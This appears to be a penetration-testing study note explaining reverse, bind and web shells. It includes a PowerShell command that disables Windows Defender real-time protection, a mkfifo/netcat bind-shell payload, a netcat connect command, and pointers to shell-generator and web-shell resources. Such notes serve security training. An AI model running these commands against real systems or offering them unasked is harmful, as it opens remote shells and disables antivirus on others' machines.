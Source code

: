 #  Shells

[ReverseShellGenerator](https://www.revshells.com/)

## Reverse Shell

With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

You want to use a [common port](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/4/html/security_guide/ch-ports#ch-ports) like `443` which usually is for `HTTPS` connections, so that it does not  get blocked by firewalls.

### Firewall evasion Windows

- Disable Windows Defender antivirus (AV)

  ```powershell
   Set-MpPreference -DisableRealtimeMonitoring $true
  ```


## Bind Shell

The `target` system has a listener started and the attacker directly connects to that port. So, there needs to be a lister opened or that we can start. Bind shells rely on incoming connections allowed through the firewall on the server-side, which is not common.

We can use `netcat` to connect to that port and get a connection to the shell. Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another  connection immediately. However, if the bind shell command is stopped  for any reason, or if the remote host is rebooted, we would still lose  our access to the remote host and will have to exploit it again to gain  access.

1. Bind a bash shell on the target (payload)

   ```bash
   rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
   ```

2. On your machine, connect though netcat

   ```bash
   nc -nv [IP] [PORT]
   ```

   

## Web Shell

A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

`/usr/share/laudanum` includes injectable files for many different web application languages.
